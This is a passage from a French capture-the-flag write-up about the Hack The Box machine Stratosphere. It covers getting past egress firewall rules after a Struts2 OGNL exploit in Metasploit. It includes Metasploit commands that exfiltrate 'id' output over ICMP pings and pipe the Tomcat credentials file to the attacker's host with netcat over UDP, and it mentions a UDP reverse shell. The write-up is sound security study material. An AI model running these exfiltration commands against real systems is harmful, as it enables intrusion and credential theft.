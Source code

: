 On est de tout évidence en présence de règles de pare feu assez strictes concernant le trafic sortant :( (et entrant puisque les ports non ouverts sont filtrés)  

UDP semble fonctionner à moitié... c'est à dire que si on utilise le payload de reverse shell UDP via socat (proposé par *Metasploit*) alors on obtient l'invite de commande... puis plus rien.  

Cette fois il semble que seul le trafic sortant soit autorisé pour UDP : UDP étant un protocole *non connecté*, si on tente d'envoyer une commande il est considéré comme une nouvelle communication (et non comme partie d'une communication existante).  

Une autre solution est d'exfiltrer les données via ICMP comme c'était le cas pour le CTF Persistence :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > set CMD "ping -p `id | xxd -p -l 16` 10.10.14.209"
CMD => ping -p `id | xxd -p -l 16` 10.10.14.209
```

![HTB Stratosphere ICMP exfiltration with ping](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/stratos_ping_exfil.png)

Ça ne résous pas réellement notre problème à savoir le besoin d'obtenir un shell interactif (même sans pty, on ne fera pas les difficiles) ou une façon de déposer des fichiers sur la machine :(   

La solution la plus évidente serait d'ajouter notre clé SSH dans le fichier *.ssh/authorized\_keys* de l'utilisateur courant (*tomcat8*).  

Malheureusement son dossier personnel (*/var/lib/tomcat8* ne nous autorise pas l'écriture).  

La machine n'a pas non plus d'adresse IPv6... Comme dirait les fans de [NetHack](https://fr.wikipedia.org/wiki/NetHack), la *DevTeam* a pensé à tout :D  

Go go gadgeto enumerate
-----------------------

Déçu par ce manque d'ouverture d'esprit, j'ai décidé de continuer à énumérer la machine avec *Metasploit* d'un côté et de l'autre un *Ncat* en écoute sur un port UDP, faute de mieux.  

La suite logique du CTF semblait consister à obtenir les identifiants du Tomcat pour passer à un autre exploit bien connu :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > set CMD "cat /etc/tomcat8/tomcat-users.xml|netcat -u 10.10.14.209 9999"
CMD => cat /etc/tomcat8/tomcat-users.xml|netcat -u 10.10.14.209 9999
```

Les infos obtenues semblaient tout à fait réalistes :  
